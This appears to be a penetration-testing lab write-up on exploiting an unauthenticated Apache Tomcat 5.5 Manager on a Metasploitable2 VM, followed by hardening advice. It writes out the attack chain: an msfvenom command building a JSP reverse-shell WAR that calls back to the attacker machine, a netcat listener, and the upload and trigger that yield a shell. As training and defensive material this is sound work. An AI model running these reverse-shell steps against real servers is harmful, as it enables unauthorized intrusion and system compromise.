







# Apache Tomcat Manager Exploitation on Metasploitable2

## Overview

**Focus:** Apache Tomcat Manager Administrative Interface Exploitation  
**Target:** Metasploitable2 (192.168.56.101)  
**Objective:** Demonstrate WAR file deployment vulnerability leading to remote code execution  
**Status:** ✅ Successfully Exploited - Full RCE Achieved

## Executive Summary

A critical vulnerability assessment was conducted against the Apache Tomcat Manager service running on Metasploitable2. The assessment revealed that the Tomcat Manager interface was accessible without proper authentication controls, allowing for arbitrary WAR file deployment. Through manual payload creation using msfvenom, a malicious JSP reverse shell was successfully deployed and executed, resulting in remote command execution as the tomcat55 user. This exploitation demonstrates the severe security implications of exposed administrative interfaces in web application servers.

## Environment Configuration

| Component | Details |
|-----------|---------|
| **Target System** | Metasploitable2 VM |
| **Target IP** | 192.168.56.101 |
| **Attacker System** | Parrot OS VM |
| **Attacker IP** | 192.168.56.102 |
| **Target Service** | Apache Tomcat 5.5 |
| **Target Port** | 8180/TCP |
| **Payload Type** | JSP Reverse Shell (WAR) |

## Vulnerability Assessment

### Service Discovery and Reconnaissance

Initial reconnaissance confirmed the presence of Apache Tomcat 5.5 running on the non-standard port 8180:

```bash
nmap -sV -sC 192.168.56.101 -p 8180
```



The scan revealed Apache Tomcat/Coyote JSP engine 1.1, indicating an end-of-life version with multiple known vulnerabilities.

### Web Application Analysis

Navigation to the Tomcat default page revealed exposed administrative interfaces through the sidebar navigation menu:



The presence of direct links to "Tomcat Manager" and "Tomcat Administration" applications indicated potential security misconfiguration.

### Manager Application Access

Direct access to the Manager application interface was successful without authentication challenges:



The Manager interface displayed full administrative capabilities including application deployment, which represents a critical security vulnerability.

## Technical Exploitation Process

### Payload Generation

A custom JSP reverse shell payload was created using msfvenom:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.56.102 LPORT=4444 -f war -o shell.war
```



The payload was specifically crafted for compatibility with the older Tomcat JSP engine, packaged in WAR format for deployment.

### Deployment and Execution

A netcat listener was established on the attacking system:

```bash
nc -nvlp 4444
```

The malicious WAR file was successfully deployed through the Manager interface's file upload functionality:



### Remote Code Execution Achievement

Triggering the deployed application by accessing `/shell/` resulted in successful reverse shell connection:





Post-exploitation reconnaissance confirmed system access as the tomcat55 user with limited privileges (uid=110), demonstrating proper service isolation despite the vulnerability.

## Skills Developed

- Manual payload generation and customization using msfvenom
- Web application security assessment methodologies
- Administrative interface vulnerability identification
- WAR file deployment attack vectors
- Reverse shell establishment and post-exploitation techniques
- Service enumeration and version identification

## Exploitation Results

**CVSS Base Score:** 9.8 (Critical)  
**Attack Vector:** Network  
**Attack Complexity:** Low  
**Privileges Required:** None  
**User Interaction:** None  
**Impact:** Complete system compromise potential

### Immediate Impact
- Remote code execution capabilities on the target system
- Ability to deploy, modify, and remove web applications
- Access to application data and configurations
- Platform for lateral movement within the network

### Business Impact
- Complete compromise of hosted web applications
- Potential data exfiltration and integrity loss
- Service disruption capabilities
- Compliance violations and regulatory exposure

## Defensive Recommendations

### Immediate Actions Required
1. **Access Control Implementation**
   - Configure strong, unique passwords for all Tomcat administrative accounts
   - Remove or disable default/demo accounts immediately
   - Implement IP-based access restrictions using RemoteAddrValve

2. **Interface Security**
   - Disable Manager application if not required for operations
   - Move administrative interfaces to non-standard ports
   - Implement reverse proxy with authentication layer

### Long-term Security Hardening
1. **System Architecture**
   - Deploy Tomcat behind a Web Application Firewall (WAF)
   - Implement network segmentation for administrative access
   - Configure SSL/TLS encryption for all administrative communications

2. **Monitoring and Detection**
   - Enable file integrity monitoring on webapps directory
   - Implement network monitoring for unusual outbound connections
   - Configure logging for all administrative actions

3. **Patch Management**
   - Upgrade to current supported Tomcat version (10.x series)
   - Establish regular security update procedures
   - Conduct quarterly vulnerability assessments

### Defense in Depth Strategy
- Multi-factor authentication for administrative access
- Role-based access controls with principle of least privilege
- Regular security audits and penetration testing
- Incident response procedures for compromise scenarios

## Educational Disclaimer

This penetration test was conducted in a controlled laboratory environment using Metasploitable2, which is specifically designed for security training purposes. The techniques demonstrated should only be used for legitimate security testing, education, and authorized penetration testing engagements. Unauthorized access to computer systems is illegal and unethical.

---

**Technical Note:** This assessment demonstrates the critical importance of proper administrative interface security and the severe consequences of misconfigurations in production web application environments.
